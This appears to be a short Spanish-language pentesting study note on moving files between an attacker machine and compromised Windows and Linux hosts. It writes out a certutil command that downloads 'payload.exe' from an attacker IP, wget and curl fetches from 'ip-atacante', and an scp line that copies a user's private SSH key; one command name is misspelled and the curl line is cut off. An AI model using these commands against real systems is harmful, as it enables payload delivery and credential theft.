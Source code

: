 # From Linux to Windows

1. Creamos un servidor simple con python en la ruta donde esté el fichero que queremos compartir: `python -m http.serve 80`
2. En la máquina comprometida windows, usamos el siguiente comando para hacer una petición:
		
	![[Pasted image 20250210011041.png]]
`certutil -urlcache -f http://ip/payload.exe payload.exe`

# From Linux to Linux

1. Creamos servidor simple con python.
	`python -m http.serve 80`
2. Hacemos una petición desde la máquina víctima:
	2.1 wget http://ip-atacante/file.txt
	2.2 curl -X GET http://



NOTA : Con Python version<3 usar :
python -m SimpleHTTPServer 8000

## Transfer files via SSH
`
`scp <user>@<ip>:<path_to_file> <path where store file>`
Example:
`scp student@10.10.10.1:~/.ssh/id_rsa .` -> Esto descarga en el directorio actual la id_rsa del home del usuario student.
``

	


		
